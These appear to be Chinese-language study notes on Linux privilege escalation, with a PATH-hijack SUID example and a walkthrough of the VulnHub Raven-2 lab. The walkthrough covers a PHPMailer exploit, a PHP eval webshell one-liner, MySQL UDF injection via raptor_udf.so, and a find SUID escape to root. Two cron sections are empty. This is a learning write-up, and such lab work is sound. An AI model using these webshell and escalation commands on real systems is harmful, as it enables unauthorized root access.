


# Linux定时任务&环境变量&数据库


## 本地环境变量

这个提权方法比较鸡肋，因为它需要两个前提条件：

1. 配合 SUID 进行环境变量提权
2. 设置环境变量需要有本地用户权限，web权限设置不了

过程：**手写调用文件(c语言)-->编译-->复制文件-->增加环境变量-->执行触发**

创建一个普通权限的新用户（环境变量需要有本地用户权限，web权限设置不了）并登录。权限为普通用户（uid:当前用户；gid:用户组；groups：其它）


编写`demo.c`文件进行上传。

```c
# include <unistd.h>

void main(){
    // 执行shell脚本会以uid(0)gid(0)（就是root）执行/bin/sh
	setuid(0);
	setgid(0);
	system("ps"); // 一会将sh修改位sh就可以了。
}
```

ps，查看当前的进程。


编译的时候警告system函数没有定义，但是还是可以编译


环境变量：一个命令对应执行的文件，比如输入：ls，就是文件路径中中`bin/ls`。（Linux的命令都存放在/bin、/sbin目录下） 

输出环境变量：`echo $PATH`。


复制文件，`cp /bin/sh /tmp/ps`，把`/bin/sh`复制给`/tmp/ps`，`ps`命令本来是用于显示当前进程的状态，复制后执行`./ps`就变成了执行`sh`命令。现在的`ps`应该就是`./sh`。


增加环境变量。`export PATH=/tmp:$PATH`，环境变量里新增`/tmp`目录，此时执行`ps`命令就相当于直接执行`sh`命令了。


执行触发。进入到刚才生成的shell文件的目录，执行`chmod u+s shell`，`./shell`执行触发`demo.c`里面的`ps`命令，然而`ps`经过环境变量的修改已经是`sh`了，所以执行`.shell`就是执行`sh`，成功提权。`$`变成`#`。

但是我这个没有成功。

## 定时任务提权

### 第一种：命令问题（WS）

### 第二种：权限问题

## 第三方服务数据库

使用VulnHUB的靶机：[Raven: 2 ~ VulnHub](https://www.vulnhub.com/entry/raven-2,269/)

流程：**Vulnhub的Raven-2靶机--->探针 IP 及端口--->利用漏洞获取 web 权限--->信息收集--->查看数据库配置文件--->利用 Mysql 提权 Linux（Mysql 版本区别同 Windows）**

确定网段，探针IP及端口。


查看靶机中存在那些开放端口。


打开对应IP的网站。


扫描目录，发现这是个`wordpress`的网站，使用了`phpmailer`。



当然，也可以不用扫描，img路径下有目录遍历漏洞。


只要扫描到了`vendor`目录就可以。


phpmailer安全问题



phpmail 版本为 5.2.17


找到phpmail页面。


利用phpmailer漏洞进行攻击。

下载exp，`https://www.exploit-db.com/download/40974`，修改配置（目标地址、后门等）


运行EXP。


点击`http://192.168.132.146/contact.php`链接以后就会在网站根目录生成一个`shell.php`，访问这个文件。


监听到端口，成功反弹shell，并且成功拿到webshell权限。


写入后门利用Webshell工具连接方便操作。

```php
echo '<?php eval($_POST[cmd]);?>' > code.php
```


连接测试。


上传信息收集脚本进行提权信息收集。


上传之后，赋予执行权限。


运行脚本，因为在蚁剑🗡中运行脚本不会回显，所以需要在刚才反弹的shell中运行这个脚本。


检测到系统装有第三方软件mysql数据库，版本为5.5.60。


翻阅数据库配置文件获取root密码。


利用Mysql提权。

下载`mysql udf poc`进行编译（目标服务器可能没有``gcc``，所以最好在本机进行编译再上传）

这个在目标服务器上没有编译成功。


本地编译


将编译后的文件上传到靶机的`tmp`目录下。


连接数据库。


进入数据库进行 UDF 导出。

创建表，将`raptor_udf.so`的内容写入表里面。

将表导出到`/usr/lib/mysql/plugin/raptor_udf.so`下（相当于将`raptor_udf.so`导出到`/usr/lib/mysql/plugin/raptor_udf.so`目录里面，这里是利用MySQL的root权限才能导出，普通用户没有这个权限）

```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf.so';
```


创建`do_system`函数调用`/usr`路径下的`raptor_udf.so`。

```mysql
create function do_system returns integer soname 'raptor_udf.so';
select do_system('chmod u+s /usr/bin/find'); # 为当前用户赋予find文件的suid权限
# 只有mysql的root才能够赋予用户suid权限
```


利用`find / -user root -perm -4000 -print 2>/dev/null`，`find`存在`suid`权限 。


原来这个`find`在`/usr/bin`目录下，每个操作系统不一样。

```bash
find / -user root -perm -4000 -print 2>/dev/null
touch filecode
find filecode -exec "whoami" \;
find filecode –exec "sh" \;
id
```

执行find的suid提权，发现是root权限。


提权成功。

需要利用数据库将`UDF`进行导出的原因：

1. 只有借助`MySQL`才有`root`权限，才能刚`raptor_udf.so`导入到`/usr/lib/mysql/plugin/raptor_udf.so`（普通用户没有这个权限）
2. 也只有`mysql`的才能够赋予用户`suid`权限

## Linux权限提升总结

提权环境，信息收集（主要关注：SUID，定时任务，可能漏洞，第三方服务应用等）

要关注，最新相关漏洞，二次开发相关脚本，将最新的脚本更新，只要有新的漏洞，就把漏洞的信息写入信息收集和漏洞利用的脚本。

信息收集脚本比如`linux-exploit-suggester.sh`并不能实时更新，因此一些最新漏洞就无法收录，此时可以自己二次开发，放入最新漏洞。

本地searchsploit脚本及远程exploitdb站点搜索说明（简要使用）

searchsploit：

1. [Exploit-DB / Exploits + Shellcode + GHDB · GitLab](https://gitlab.com/exploit-database/exploitdb)
2. [GitHub - offensive-security/exploitdb: The legacy Exploit Database repository - New repo located at https://gitlab.com/exploit-database/exploitdb](https://github.com/offensive-security/exploitdb)

exploitdb：

1. 最新漏洞官网在线搜索：[Exploit Database - Exploits for Penetration Testers, Researchers, and Ethical Hackers (exploit-db.com)](https://www.exploit-db.com/)
2. 这个漏洞库是国外的，收录的漏洞也是一些国际上用的比较多的软件，如果想要查找一些国内小众cms之类的漏洞，可以去国内的漏洞库查看。

其他提权方法,如：

1. 密码复用（主要靠运气，看弱密码：比如数据库的密码也可能是root密码）

2. guid提权（与suid提权同理，只是搜索语句不同）

   ```bash
   find suid 
   find / -perm -u=s -type f 2>/dev/null
   find guid
   find / -perm -g=s -type f 2>dev/null
   ```

3. sudo提权（很鸡肋，没鸟用）
